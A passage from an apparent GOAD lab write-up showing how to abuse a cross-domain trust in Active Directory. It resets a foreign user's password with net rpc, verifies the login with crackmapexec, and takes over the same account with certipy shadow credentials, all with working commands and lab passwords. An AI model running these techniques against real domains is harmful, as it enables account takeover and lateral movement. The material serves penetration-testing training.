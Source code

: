 ![trust_foreing_groups_spys.png](/assets/blog/GOAD/trust_foreing_groups_spys.png)

- To do that just pick a user from the small council (by example petyer.baelish:@littlefinger@) and exploit with the spy group

```bash
net rpc password jorah.mormont -U sevenkingdoms.local/petyer.baelish%@littlefinger@ -S meereen.essos.local
Enter new password for jorah.mormont: <here we enter P@ssword123>
```

- And verify

```bash
cme smb 192.168.56.12 -u jorah.mormont -p 'P@ssword123' -d essos.local
```

![trust_change_password_foreigngroup.png](/assets/blog/GOAD/trust_change_password_foreigngroup.png)

- We can also to that with shadow credentials (but the auto will not work here, we will have to do that with two steps)

```bash
certipy shadow add -u petyer.baelish@sevenkingdoms.local -p '@littlefinger@' \
 -dc-ip 192.168.56.12 -target meereen.essos.local -account 'jorah.mormont'
```

```bash
certipy auth -pfx jorah.mormont.pfx -username jorah.mormont -domain essos.local -dc-ip 192.168.56.12
```

![trust_change_shadow_creds_cross_domain.png](/assets/blog/GOAD/trust_change_shadow_creds_cross_domain.png)
